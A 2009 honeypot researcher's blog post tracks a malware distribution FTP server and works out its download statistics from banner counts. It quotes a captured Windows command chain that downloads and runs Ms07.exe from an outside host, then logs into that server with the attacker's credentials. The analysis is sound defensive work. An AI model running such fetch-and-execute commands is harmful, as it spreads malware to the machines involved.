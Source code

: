 ```yaml
---
title: "Iteolih: If you can't touch it ..."
authors: ["Markus Koetter"]
date: "2009-07-21"
tags: 
  - "ftp"
  - "iteolih"
---
```


While playing with the current hsoc code, I got attacked, and saw an offer to download something from somewhere.  
`  
cmd /c echo open v1.usbupdatestrings.at 4356 > i&echo user ik ik >> i &echo binary >> i &echo get Ms07.exe >> i &echo quit >> i &ftp -n -s:i &Ms07.exe  
`  
The offer to download something was not that unexpected, we are working hard to get these offers, so we can grab copies of something, but the location was interesting. Obviously they decided to go for a central service to deploy their malware, and to indicate that level of professionalism on first sight, they use(d) a domain.  
  
To honor their effort, I decided to give them a visit ...  
  
`  
lftp ftp://ik:ik@v1.usbupdatestrings.at:4356  
`  
To allow having a look on the whole traffic, I decided to run lftp in debug mode  
`  
lftp ik@v1.usbupdatestrings.at:~> debug  
`  
And connect the service  
`  
lftp ik@v1.usbupdatestrings.at:~> ls  
---- Connecting to v1.usbupdatestrings.at (79.99.6.123) port 4356  
<--- 220-Serv-U FTP Server v5.0 for WinSock ready...  
<--- 220-.:::::::::::::::::::::::::::::::::::::::::::::::::.  
<--- 220-.::::|  
<--- 220-.::::| o0o-====== pe[ro =======-o0o  
<--- 220-.::::|________________________________________  
<--- 220-.:::::::::::::::::::::::::::::::::::::::::::::::::.  
<--- 220-.::::|  
<--- 220-.::::| o0o-========= USER STATS =========-o0o  
<--- 220-.::::|  
<--- 220-.::::| You are Connecting From 'The great Tor Network'  
<--- 220-.::::| 231352 users have visited in the last 24 hours  
<--- 220-.::::| This server has been running for  
<--- 220-.::::|14 Days, 1 Hours, 0 Mins, 43 Secs  
<--- 220-.::::|  
<--- 220-.::::|Amout of Logins Since Server Started: 1020885 total  
<--- 220-.::::| o0o-======== SERVER STATS ========-o0o  
<--- 220-.::::|  
<--- 220-.::::| Logged in Users: 52  
<--- 220-.::::| Total Kb downloaded: 60855849 Kb  
<--- 220-.::::| Total Kb uploaded: 1132 Kb  
<--- 220-.::::| Amout of Files downloaded: 731839  
<--- 220-.::::| Amout of Files uploaded: 11  
<--- 220-.::::| Average Speed: 50.161 Kb/sec  
<--- 220-.::::| Current Speed: 323.925 Kb/sec  
<--- 220-.::::| Free Disk Space: 92367.79 MB  
<--- 220-.::::|________________________________________  
<--- 220 .:::::::::::::::::::::::::::::::::::::::::::::  
`  
  
_If you can't touch it, you have to count it_, I appreciate the decision to share these numbers with everybody connecting.  
  
Today, I wanted to give them a new shot, fresh numbers, so I could compare the numbers to see if they seem reliable.  
For some reason the domain v1.usbupdatestrings.at is gone already, but the service was still running on the same ip.  
  
`  
<--- 220-.::::| o0o-========= USER STATS =========-o0o  
<--- 220-.::::|  
<--- 220-.::::| You are Connecting From 'The great Tor Network'  
<--- 220-.::::| 169188 users have visited in the last 24 hours  
<--- 220-.::::| This server has been running for  
<--- 220-.::::|14 Days, 21 Hours, 32 Mins, 28 Secs  
<--- 220-.::::|  
<--- 220-.::::|Amout of Logins Since Server Started: 1144533 total  
<--- 220-.::::| o0o-======== SERVER STATS ========-o0o  
<--- 220-.::::|  
<--- 220-.::::| Logged in Users: 7  
<--- 220-.::::| Total Kb downloaded: 66602829 Kb  
<--- 220-.::::| Total Kb uploaded: 1524 Kb  
<--- 220-.::::| Amout of Files downloaded: 804645  
<--- 220-.::::| Amout of Files uploaded: 16  
<--- 220-.::::| Average Speed: 51.746 Kb/sec  
<--- 220-.::::| Current Speed: 45.348 Kb/sec  
<--- 220-.::::| Free Disk Space: 92367.55 MB  
<--- 220-.::::|________________________________________  
<--- 220 .:::::::::::::::::::::::::::::::::::::::::::::  
`  
  
So, within 20hours, their ftp service had:  

  
- Amout of Logins (1144533 - 1020885) = **123648**
  
- Amout of Files downloaded (804645 - 731839) = **72806**
  
- Amout of Files uploaded (16 - 11) = 5
  
- Total Kb downloaded (66602829 - 60855849) = **5746980** (5612 Mbyte)
  

  
  
Getting copies of the malware from the service and submit them to virustotal, to verify if the five malware updates during the last 20 hours were worth the effort, is left as an exercise for the reader.
